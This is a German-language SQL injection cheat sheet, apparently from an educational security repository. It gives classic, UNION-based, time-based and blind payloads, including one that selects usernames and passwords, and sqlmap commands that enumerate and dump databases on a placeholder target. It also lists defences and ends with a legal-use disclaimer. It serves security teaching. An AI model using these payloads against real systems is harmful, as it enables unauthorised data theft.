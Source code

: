 # SQL Injection Cheat Sheet



## Inhaltsverzeichnis
- [Was ist eine SQL-Injection?](#was-ist-eine-sql-injection)
- [Grundlegende Arten von SQL-Injections](#grundlegende-arten-von-sql-injections)
- [Beispiele für SQL-Injection Payloads](#beispiele-für-sql-injection-payloads)
- [Wichtige SQL-Befehle zur Ausnutzung](#wichtige-sql-befehle-zur-ausnutzung)
- [Schutz vor SQL-Injection](#schutz-vor-sql-injection)
- [Nützliche Tools zur SQLi-Analyse](#nützliche-tools-zur-sqli-analyse)
- [Beispiel: SQL-Injection mit sqlmap](#beispiel-sql-injection-mit-sqlmap)
- [Fazit](#fazit)
- [Haftungsausschluss](#haftungsausschluss)



## Was ist eine SQL-Injection?

**SQL-Injection** (SQLi) ist eine Schwachstelle in Webanwendungen, bei der Angreifer schädlichen SQL-Code einschleusen, um mit der Datenbank zu interagieren. Ziel ist es, Daten zu lesen, ändern oder löschen, ohne Berechtigung zu haben.



## Grundlegende Arten von SQL-Injections

| Typ                   | Beschreibung                                                    |
| --------------------- | --------------------------------------------------------------- |
| Klassische SQLi       | Direkte Einspeisung in SQL-Abfrage                              |
| Blind SQLi            | Keine Fehlermeldung oder Ausgabe, aber Verhalten verändert sich |
| Time-Based Blind SQLi | Antwortzeit zeigt an, ob Abfrage erfolgreich war                |
| Union-Based SQLi      | Verwendung von UNION zur Datenabfrage                           |
| Error-Based SQLi      | Nutzt Fehlermeldungen zur Informationsgewinnung                 |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Beispiele für SQL-Injection Payloads

### 1. Klassische Injection

```sql
' OR '1'='1
admin' --
```

### 2. Union-Based

```sql
' UNION SELECT null, username, password FROM users --
```

### 3. Time-Based (MySQL)

```sql
' OR IF(1=1, SLEEP(5), 0) --
```

### 4. Blind SQLi (Boolean)

```sql
' AND 1=1 -- (wird akzeptiert)
' AND 1=2 -- (wird abgelehnt)
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Wichtige SQL-Befehle zur Ausnutzung

| Befehl               | Zweck                                   |
| -------------------- | --------------------------------------- |
| `SELECT`             | Daten abfragen                          |
| `UNION`              | Daten aus mehreren Abfragen kombinieren |
| `INSERT`, `UPDATE`   | Daten manipulieren                      |
| `DELETE`             | Daten löschen                           |
| `INFORMATION_SCHEMA` | Metadaten zur Datenbank anzeigen        |

Beispiel:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();
```



## Schutz vor SQL-Injection

* ✅ Prepared Statements / Parameterized Queries verwenden (z. B. `PDO`, `mysqli` in PHP)
* ✅ Eingaben validieren und escapen
* ✅ Least Privilege Prinzip in der Datenbank anwenden
* ✅ Fehlerausgaben vermeiden oder loggen
* ✅ WAF (Web Application Firewall) einsetzen



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Nützliche Tools zur SQLi-Analyse

| Tool         | Funktion                                       |
| ------------ | ---------------------------------------------- |
| `sqlmap`     | Automatisierte SQLi-Tests und Exploits         |
| `Burp Suite` | Manuelles Testen und Modifizieren von Requests |
| `ZAP`        | Open Source Scanner für Webanwendungen         |
| `DVWA`       | Testumgebung für Web Security                  |



## Beispiel: SQL-Injection mit sqlmap

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --batch --dbs
```

Weitere Beispiele:

```bash
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=admin" --dump
```



## Fazit

SQL-Injections sind eine der ältesten, aber immer noch häufigsten Sicherheitslücken im Web. Mit ausreichendem Wissen und den richtigen Tools lassen sich diese erkennen, ausnutzen und vor allem vermeiden.

**Ziel:** Erkennen, verstehen und absichern.



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
